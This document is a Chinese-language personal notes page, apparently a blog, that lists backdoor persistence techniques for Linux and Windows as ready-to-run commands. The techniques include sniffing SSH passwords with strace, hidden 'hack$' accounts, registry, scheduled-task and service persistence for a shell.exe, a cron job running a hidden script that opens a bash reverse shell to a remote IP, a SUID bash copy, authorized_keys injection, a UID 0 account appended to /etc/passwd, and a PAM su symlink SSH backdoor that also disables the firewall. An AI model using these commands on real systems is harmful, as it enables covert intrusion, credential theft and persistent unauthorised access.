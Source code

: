 ## Strace监听SSH来源流量记录密码后门

```java
(strace -f -F -p `ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'}` -t -e trace=read,write -s 32 2> /tmp/.sshd.log &)
grep -E 'read\(6, ".+\\0\\0\\0\\.+"' /tmp/.sshd.log
```

这里明文200377是我们的密码

![image-20240731194147020](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240731194147020.png)

```java
//查看进程，可以看出有无开启 strace进程
root@ubuntu:/tmp# ps -ef | grep "strace"
root       2269   1610  9 04:38 pts/0    00:00:32 strace -f -F -p 956 -t -e trace=read,write -s 32
root       2456   2173  0 04:43 pts/0    00:00:00 grep --color=auto strace
root@ubuntu:/tmp# kill -9 2269
root@ubuntu:/tmp# ps -ef | grep "strace"
root       2458   2173  0 04:44 pts/0    00:00:00 grep --color=auto strace
root@ubuntu:/tmp# 
```

# SSH密钥远程登录

#### 制作秘钥对

```java
ssh-keygen   //生成密钥再目录 /root/.ssh/id_rsa
```

#### 在服务器上安装密钥



## 克隆账号(一)

#### 隐藏账号

```javas
net user hack$ 123456 /add
net user
```

只能通过

![image-20240729233121479](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240729233121479.png)

## 启动项维持后门（二）

添加启动项的方式：
1、[组策略](https://so.csdn.net/so/search?q=组策略&spm=1001.2101.3001.7020)
2、启动文件夹
3、注册表

#### 组策略

gpedit.msc，在【计算机配置】->【在Windows设置】->【脚本(启动/关机)】双击【启动】就可以进行设置

#### 启动文件夹

通过开始菜单——所有程序——启动 这个文件夹内，可以将程序开机自动启动
```java
C: \ProgramData\Microsoft\Windows\Start Menu\Programs\Startup #系统级，需要system权限
C: \Users\用户名\AppData\Roaming\Microsoft\Windows\Start\Menu\Programs\Startup #用户级普通权限
```

组策略脚本启动文件夹：

```
C:\Windows\System32\GroupPolicy\Machine\Scripts\Startup
C:\Windows\System32\GroupPolicy\Machine\Scripts\Shutdown
C:\Windows\System32\GroupPolicy\User\Scripts\Logon
C:\Windows\System32\GroupPolicy\User\Scripts\Logoff
```

#### 注册表

```java
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v shell /t REG_SZ /d "C:\Users\Administart\Desktop\shell.exe"
```

## windows计划任务(三)

```java
taskschd.msc
```

1、在每个任意用户登录中以SYSTEM的形式执行计划任务：

schtasks /create /tn 计划任务名 /tr "计划任务执行文件命令" /sc onlogon /ru System
2、在系统启动期间或用户会话处于非活动状态（空闲模式）时执行

schtasks /create /tn 计划任务名 /tr "计划任务执行文件命令" /sc onidle /i 30
3、在系统启动的时候以SYSTEM的形式执行计划任务：

schtasks /create /tn 计划任务名 /tr "计划任务执行文件命令" /sc onstart /ru System
4、计划任务以 System 权限每10分钟运行一次

schtasks /create /tn 计划任务名 /tr "计划任务执行文件命令" /sc minute/mo 10 /ru system

```java
schtasks /create /tn test /sc minute /mo 1 /tr C:\Users\Administart\Desktop\shell.exe /ru system /f
```

## Windows系统-系统服务维持后门(四)

```java
1、创建服务
sc create shell start= auto binPath= "C:\shell.exe" obj= Localsystem
2、查看服务是否已经创建
services.msc
3、修改正常的名称和描述
sc description "shell" "安全"
4、启动服务
 net start "服务"
```

## Linux系统-定时任务后门（五）

```java
crontab -u root -r //删除
crontab -u root -l //查看
crontab -u root -e //修改
```

1、创建反弹shell脚本,vim /etc/.evil.sh

```java
#!/bin/bash
bash -i >& /dev/tcp/192.168.52.130/7777 0>&1
```

chmod +x /etc/.evil.sh 

2、添加计划任务

```java
#添加计划任务
vim /etc/crontab
#查看计划任务
cat /etc/crontab	
```

设置定时任务为每分钟执行一次

```
*/1 * * * * root /etc/.evil.sh #每一分钟执行一次
```

## Linux系统-SUID后门（六）

需要在root用户执行

```java
cp /bin/bash /var/.hack 
chmod 4775 /var/.hack 
ls -al /var/.hack
```

然后普通用户执行，/var/.hack -p 

![image-20240730213452258](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240730213452258.png)

## Linux系统-SSHKey后门（七）

当我们具有写入权限的时候，我们同样可以自行生成密钥，当kali机器第一次生成密钥的时候，并且把公钥放在了你的服务器上面，当你把公钥放在服务器上面的时候，这就意味着他可以正常的解密和加密你发过来的内容，后面你就是通过加解密去认证会话的，并不需要输入密码

生成密钥和查看公钥（kali执行）：

```
ssh-keygen -t rsa 
cd /root/.ssh 
ls
cat id_rsa.pub
```

将 id_rsa.pub文件中的内容拷贝到目标机器（ubuntu）上并且写入到 authorized_keys这个文件夹下

写入（CentOS执行）：

```java
 cd /root/.ssh 
vim authorized_keys
```

我ubuntu并未配置任何设置

ssh root@192.168.236.133

![image-20240730220819846](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240730220819846.png)

其实就是ssh通过 authorized_keys  进行的验证，



## Linux系统-添加用户后门(八)

添加用户

```java
生成密码： openssl passwd -1 -salt admin 123456 
-1 的意思是使用md5crypt加密算法 
-salt 指定盐为admin 
123456 明文密码
```

追加命令（UID=0）：

```
echo 'admin:$1$admin$LClYcRe.ee8dQwgrFc5nz.:0:0::/root:/bin/bash' >> /etc/passwd
```

![image-20240730224349961](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240730224349961.png)

```java
ssh admin@192.168.52.132 然后密码是明文  123456
```

## Linux-SSH 软连接后门（九）

软连接后门的原理是利用了PAM配置文件的作用，将sshd文件软连接名称设置为su，这样应用在启动过程中他会去PAM配置文件夹中寻找是否存在对应名称的配置信息(su)，然而 su 在 pam_rootok 只检测 uid 0 即可认证成功
受害者机器

```java
ln -sf /usr/sbin/sshd /tmp/su 
/tmp/su -oPort=8080
systemctl stop firewalld.service #关闭服务器的防火墙，不然连接不上
```

攻击者

```java
ssh root@192.168.52.132 -p 8080
```

直接连上
![image-20240730230452302](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240730230452302.png)

## Linux-strace监控流量(十)

```java
strace -f -p 15191 -o /tmp/.ssh.log -e trace=read,write,connect -s 2048
```

 ```java
 ssh root@127.0.0.1
 ssh jycxk@127.0.0.1
 ```



























